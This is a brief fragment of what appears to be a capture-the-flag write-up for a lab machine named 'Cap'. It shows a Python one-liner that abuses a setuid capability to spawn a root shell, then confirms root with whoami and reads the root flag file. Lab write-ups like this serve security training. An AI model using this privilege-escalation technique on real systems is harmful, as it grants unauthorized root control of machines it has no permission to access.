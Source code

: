 # Cap



```
$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

We are root !
```
# whoami
root
```
Check for the flag
```
cat /root/root.txt
```

